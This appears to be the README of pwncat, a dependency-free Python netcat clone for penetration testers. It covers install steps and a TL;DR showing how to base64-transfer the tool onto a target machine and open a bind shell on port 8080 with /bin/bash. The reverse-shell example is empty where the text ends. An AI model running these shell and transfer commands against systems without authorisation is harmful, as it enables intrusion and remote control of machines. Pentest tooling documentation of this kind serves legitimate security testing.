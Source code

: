# pwncat

**[Install](#tada-install)** |
**[TL;DR](#coffee-tldr)** |
**[Usage](#computer-usage)** |
**[cytopia sec tools](#lock-cytopia-sec-tools)** |
**[Contributing](#octocat-contributing)** |
**[Disclaimer](#exclamation-disclaimer)** |
**[License](#page_facing_up-license)**

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/pwncat)](https://pypi.org/project/pwncat/)
[![PyPI - Status](https://img.shields.io/pypi/status/pwncat)](https://pypi.org/project/pwncat/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pwncat)](https://pypi.org/project/pwncat/)
[![PyPI - Format](https://img.shields.io/pypi/format/pwncat)](https://pypi.org/project/pwncat/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/pwncat)](https://pypi.org/project/pwncat/)
[![PyPI - License](https://img.shields.io/pypi/l/pwncat)](https://pypi.org/project/pwncat/)

[![Build Status](https://github.com/cytopia/pwncat/workflows/linting/badge.svg)](https://github.com/cytopia/pwncat/actions?workflow=linting)
[![Build Status](https://github.com/cytopia/pwncat/workflows/building/badge.svg)](https://github.com/cytopia/pwncat/actions?workflow=building)
[![Build Status](https://github.com/cytopia/pwncat/workflows/testing/badge.svg)](https://github.com/cytopia/pwncat/actions?workflow=testing)


Dependency-less Python 2 and Python 3 compatible implementation of netcat which works on 32bit and 64bit systems to easily pivot your target.

**Motivation**

To have a single tool for older, newer, 32bit and 64bit machines with relevant options (`-e`. `-L` and `-R`) to create bind shells, local and remote port-forwards.


**Todo**

The options `e`, `-n`, `-L`, and `-R` are still under development. See [Usage](#computer-usage) for other available options.


## :tada: Install
```bash
pip install pwncat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > pwncat
chmod +x pwncat
```
#### Summon shells
```bash
# bind shell
pwncat -l -e '/bin/bash' 8080
```
```bash
# reverse shell
```